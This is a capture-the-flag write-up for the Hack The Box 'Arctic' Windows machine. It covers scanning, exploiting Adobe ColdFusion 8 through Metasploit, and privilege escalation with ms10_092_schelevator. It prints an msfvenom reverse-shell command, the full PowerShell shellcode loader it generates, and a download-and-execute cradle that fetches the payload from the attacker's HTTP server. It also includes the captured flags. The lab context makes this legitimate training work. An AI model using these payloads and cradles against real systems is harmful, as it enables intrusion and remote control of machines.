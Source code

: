 ```yaml
---
title: HTB Machine Arctic May 2025
published: 2025-05-15
description: Writeup of HTB Arctic Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, Adobe ColdFusion]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning 

## Nmap 

- Ports Open

```python
Discovered open port 135/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
Discovered open port 8500/tcp on 10.10.10.11 # Don't know what it is
Discovered open port 49154/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
```

- Full Scan

```bash
# Nmap 7.94SVN scan initiated Wed May 14 15:27:15 2025 as: nmap -sC -sV -vvv -T5 -oA nmap/initials -Pn 10.10.10.11
Nmap scan report for 10.10.10.11 (10.10.10.11)
Host is up, received user-set (0.19s latency).
Scanned at 2025-05-14 15:27:16 IST for 170s
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 15:30:06 2025 -- 1 IP address (1 host up) scanned in 171.15 seconds
```

# Enumeration

- Web Server (Adobe ColdFusion web server)

![Pasted image 20250514155330.png](images/Pasted image 20250514155330.png)
![Pasted image 20250514155550.png](images/Pasted image 20250514155550.png)
- Adobe ColdFusion 8 Login Panel 

![Pasted image 20250514155934.png](images/Pasted image 20250514155934.png)
# Exploitation

- Trying 1st Payload using Metasploit

![Pasted image 20250514161334.png](images/Pasted image 20250514161334.png)
![Pasted image 20250514161446.png](images/Pasted image 20250514161446.png)
![Pasted image 20250514161504.png](images/Pasted image 20250514161504.png)
- But Failed!!!!!!!!!!!

- Started Debugging Using Burp with Proxy and found one problem: Metasploit only waits for 5 sec and then it gives error and shuts the listener, but this exploit takes 20 to 30 sec for getting shell. So we have to forward the POST request to proxy and take it into repeater, then shut the Metasploit listener off and start a netcat listener with the same port and send the request through repeater. Then we got the shell.  

![Pasted image 20250514163820.png](images/Pasted image 20250514163820.png)
- Now the problem is that I have a normal user/service shell which is kind of primitive in nature and we need a meterpreter shell. So for that, we use msfconsole to create another PowerShell payload which will be invoked from the shell we got.

- After Creating that, we transport it to the victim machine using a Python HTTP server and invoke it directly in memory without leaving a file on disk. 

- This is not that easy because Defender keeps removing it, so this is just the success part, although you can see the number of attempts. 😗

- Creating Shell.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f psh -o shell.ps1
```

- Payload: shell.ps1

```powershell
$xVgZtpUmbJgsKj = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$JoDMBHBRFCPbBq = Add-Type -memberDefinition $xVgZtpUmbJgsKj -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $oYFigiQwf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xa,0xa,0x10,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$XQXihJenTp = $JoDMBHBRFCPbBq::VirtualAlloc(0,[Math]::Max($oYFigiQwf.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($oYFigiQwf,0,$XQXihJenTp,$oYFigiQwf.Length)

$JoDMBHBRFCPbBq::CreateThread(0,0,$XQXihJenTp,0,0,0)
```

- Transporting Shell.ps1

```powershell
powershell -Command 
"$c=new-object net.webclient;
iex $c.downloadstring('http://10.10.16.10:8000/shell.ps1')"
```

- Metasploit Payload and Instance

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.10
set lport 1337
run
```

![Pasted image 20250515100848.png](images/Pasted image 20250515100848.png)
![Pasted image 20250515101211.png](images/Pasted image 20250515101211.png)
- And we got our first flag!!

```lua
27c8ead73af56159c49fec2e895bda01
```

# Post Exploitation

- Now comes the post exploitation part, so for that we used Metasploit's default suggester which gives potential modules.

![Pasted image 20250515101511.png](images/Pasted image 20250515101511.png)
```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![Pasted image 20250515102031.png](images/Pasted image 20250515102031.png)
- These are x86 version meterpreter exploits but we want x64 version, so we have to migrate to an x64 process to do this.
- And for this, we have used the conhost.exe process.

![Pasted image 20250515102505.png](images/Pasted image 20250515102505.png)
- Now after doing the same exploit suggester, we found this to be vulnerable. So we used it and got the system shell. 👍

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set lhost 10.10.16.10
```

![Pasted image 20250515103152.png](images/Pasted image 20250515103152.png)
![Pasted image 20250515103249.png](images/Pasted image 20250515103249.png)
- And finally got the root shell.

![Pasted image 20250515103722.png](images/Pasted image 20250515103722.png)
```lua
960b5b48915c3d781eb275a5f8965e6f
```